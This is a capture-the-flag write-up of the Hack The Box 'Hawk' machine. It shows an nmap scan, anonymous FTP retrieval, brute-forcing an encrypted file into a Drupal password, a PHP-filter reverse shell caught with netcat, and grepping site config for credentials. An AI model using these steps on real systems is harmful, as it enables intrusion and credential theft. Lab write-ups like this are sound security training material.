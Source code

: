 # Hawk writeups by Seyptoo.

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543657344-capture-du-2018-12-01-10-41-55.png)](https://hackthebox.eu/)

Informations
----
    Ip : 10.10.10.102       Created : mrh4sh
    Level : Easy            Base Points : 30
    
Nmap Scan
----
**We have 4 open ports, 21, 22, 80 and 8082.**
The 21 is for the FTP server, 22 for the SSH server, for the 80 HTTTP server (Drupal CMS) and finally for the 8082 for the 
database.

    root@Seyptoo:~/writeup/hawk# nmap -A -sT -p 1-65535 -oA nmap/hawk 10.10.10.102 -v
    Starting Nmap 7.01 ( https://nmap.org ) at 2018-12-01 10:50 CET
    NSE: Loaded 132 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating NSE at 10:50
    Completed NSE at 10:50, 0.00s elapsed
    Initiating Ping Scan at 10:50
    Scanning 10.10.10.102 [4 ports]
    Completed Ping Scan at 10:50, 0.22s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 10:50
    Completed Parallel DNS resolution of 1 host. at 10:50, 0.00s elapsed
    Initiating Connect Scan at 10:50
    Scanning 10.10.10.102 [65535 ports]
    Discovered open port 21/tcp on 10.10.10.102
    Discovered open port 22/tcp on 10.10.10.102
    Discovered open port 80/tcp on 10.10.10.102
    Discovered open port 8082/tcp on 10.10.10.102
    
Check Version
----
[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543658376-capture-du-2018-12-01-10-59-23.png)](https://hackthebox.eu)
**We can see that we have 2 HTTP 
servers and an FTP server which we can 
access anonymously.**

FTP Access and transfert
----
**We have access to the FTP server, we can see that there is a hidden file and we transfer it to our physical machine.**
The file this name .drupal.txt.enc, it is probably a password to access the CMS drupal. :)

    root@Seyptoo:~/writeup/hawk# ftp 10.10.10.102
    Connected to 10.10.10.102.
    220 (vsFTPd 3.0.3)
    Name (10.10.10.102:root): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
    226 Directory send OK.
    ftp> cd messages
    250 Directory successfully changed.
    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    226 Directory send OK.
    ftp> ls -alv
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 .
    drwxr-xr-x    3 ftp      ftp          4096 Jun 16 22:14 ..
    -rw-r--r--    1 ftp      ftp           240 Jun 16 22:21 .drupal.txt.enc
    226 Directory send OK.
    ftp> mget .drupal.txt.enc
    mget .drupal.txt.enc? 
    200 PORT command successful. Consider using PASV.
    150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
    226 Transfer complete.
    240 bytes received in 0.00 secs (513.9802 kB/s)
    ftp> 

Cracking file
----
Everything is encrypted, we will use a tool to crack this file.

    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc 
    U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
    CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
    QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
    t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
    root@Seyptoo:~/writeup/hawk# cat .drupal.txt.enc|base64 -d
    Salted__kY ԓi-6�l���7Z����>{�$�p����5 �2[
    ���������8?�sW�j#T$3AG�,f	���Z\ja�>>G6
    �.��E���ÐV��V@�����ɗ���4�����@�w�xZ��Ni��PtF��`)
    root@Seyptoo:~/writeup/hawk#
The file is in base64, we are going to the tools on github.

    root@Seyptoo:~/writeup/hawk# git clone https://github.com/deltaclock/go-openssl-bruteforce.git
    Clonage dans 'go-openssl-bruteforce'...
    remote: Enumerating objects: 31, done.
    remote: Total 31 (delta 0), reused 0 (delta 0), pack-reused 31
    Dépaquetage des objets: 100% (31/31), fait.
    Vérification de la connectivité... fait.
    root@Seyptoo:~/writeup/hawk# cd go-openssl-bruteforce/
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ls
    brute.go  openssl-brute  README.md
    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# ./openssl-brute -file ../drupal.txt.enc
    Bruteforcing Started
    CRACKED!! Results in file [ result-aes256 ]
    --------------------------------------------------
    Found password [ friends ] using [ aes256 ] algorithm!!
    --------------------------------------------------
    Daniel,

    Following the password for the portal:

    "PencilKeyboardScanner123"

    Please let us know when the portal is ready.

    Kind Regards,

    IT department

    --------------------------------------------------
The password has been cracked successfully, so we can connect to the CMS (drupal).

Website reverse shell
----
Try a default user, like admin and it should do the trick to connect to the CMS.
> User : **admin**<br/>
Password : **PencilKeyboardScanner123**

[![forthebadge made-with-python](http://image.noelshack.com/fichiers/2018/48/6/1543661418-capture-du-2018-12-01-11-50-07.png)](https://hackthebox.eu)

Once you are logged in you have to go to modules, and activate **PHP filter**.<br/>
Once you have activated the module go to **Content, add content, Basic page, and put your PHP code**, go take the code pentestmonkey. :)

AND BIM !!!

    root@Seyptoo:~/writeup/hawk/go-openssl-bruteforce# nc -lvp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.102] port 1234 [tcp/*] accepted (family 2, sport 48804)
    Linux hawk 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
     11:09:02 up 29 min,  2 users,  load average: 0.05, 0.02, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    daniel   pts/0    10.10.15.190     10:47    5:31   0.14s  0.14s -python3
    daniel   pts/2    10.10.15.190     11:04    4:13   0.03s  0.03s -python3
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@hawk:/$ cd /home/daniel
    www-data@hawk:/home/daniel$ cat user.txt
    d5111d4f75370ebd01cd**********
    
We have to login in SSH, go to var /www/html/sites/default/
    
    www-data@hawk:/var/www/html/sites/default$ grep password -r .
    
[![forthebadge made-with-python](http://www.noelshack.com/2018-48-6-1543664102-capture-du-2018-12-01-12-31-37.png)](https://hackthebox.eu)
